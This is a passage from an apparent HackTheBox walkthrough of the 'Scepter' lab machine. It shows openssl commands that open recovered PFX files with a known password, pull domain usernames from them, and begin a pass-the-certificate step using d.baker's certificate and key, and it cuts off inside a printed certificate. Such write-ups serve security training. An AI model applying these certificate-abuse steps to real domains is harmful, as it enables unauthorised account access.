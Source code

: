 The other `pfx` files also doesn't valid for authenticate.
Gathering usernames from `pfx` files.

```bash
openssl pkcs12 -in clark.pfx -info -text -nodes -passin pass:newpassword                   
MAC: sha256, Iteration 2048                                                                   
MAC length: 32, salt length: 8                                                                
PKCS7 Encrypted data: PBES2, PBKDF2, AES-256-CBC, Iteration 2048, PRF hmacWithSHA256
Certificate bag                                                                               
Bag Attributes                                                                                
    localKeyID: E1 84 EA CC 0B 68 19 40 D4 CA 6B 14 C1 8E 9E 30 E7 AA 48 B4 
subject=DC=htb, DC=scepter, CN=Users, CN=m.clark                
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA              
```

The usernames:

```text
m.clark
e.lewis
o.scott
d.baker
```


## Pass The Cert

Since `pfx` files are no use to us except username expose. The others files `baker.crt` (public key) and `baker.key` (private key) .

Examining the `baker.crt` . The result the username for this certificate is `d.baker` . 

```bash
┌──(venv)─(root㉿kali2025)-[~/…/HackTheBox/machines/scepter/nfsshare]
└─# head -n20 baker.crt                                                                        
Bag Attributes
    friendlyName: 
    localKeyID: DC 2B 20 65 C3 0D 91 40 E8 37 B5 CC 06 0F EA 66 5D 3B 7C 4E 
subject=DC=htb, DC=scepter, CN=Users, CN=d.baker, emailAddress=d.baker@scepter.htb
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA
-----BEGIN CERTIFICATE-----
MIIGTDCCBTSgAwIBAgITYgAAADLhpcORUTEJewAAAAAAMjANBgkqhkiG9w0BAQsF
ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHc2NlcHRl
cjEYMBYGA1UEAxMPc2NlcHRlci1EQzAxLUNBMB4XDTI0MTEwMjAxMTM0NloXDTI1
MTEwMjAxMTM0NlowdDETMBEGCgmSJomT8ixkARkWA2h0YjEXMBUGCgmSJomT8ixk
ARkWB3NjZXB0ZXIxDjAMBgNVBAMTBVVzZXJzMRAwDgYDVQQDEwdkLmJha2VyMSIw
IAYJKoZIhvcNAQkBFhNkLmJha2VyQHNjZXB0ZXIuaHRiMIIBIjANBgkqhkiG9w0B
AQEFAAOCAQ8AMIIBCgKCAQEApYOPHHtw8CsIIS6mFkoI8CtD5I4Tu36JDSObdnYZ
kZ1eKW/Vif1rXL9LHykKhJbTGuJsEDSHKt7mYs0r49JU3HrW2ZIosuIhSq25gcql
73tnI7RoCc8n6zUZBQaiEJbbXAhcKJ1Tkarc3ZX3U9aHoKkklMJhyH01D/3xvGsM
6XbCFHby3HmnwouKph9/a7e2XPynHnYvwbU3POkJPm+P45Ko5r18VuELdHJBGOVx
9/aOxqQ9wU1Rqi4O711dWAenr8wfG0IUIEm2hmPKAfAJw+dKgpspe9TtUZlJs0M4
ZLa/xdhdySmr9snryirgSYD9KEzWx+0NsqaHfmM1aqsZEwIDAQABo4IDATCCAv0w
HQYDVR0OBBYEFDeUzFfjpMtVYxpHj4PQblDCNGNRMB8GA1UdIwQYMBaAFOuQVDjS
pmyJasttTaS6dRVgFSfjMIHKBgNVHR8EgcIwgb8wgbyggbmggbaGgbNsZGFwOi8v
```

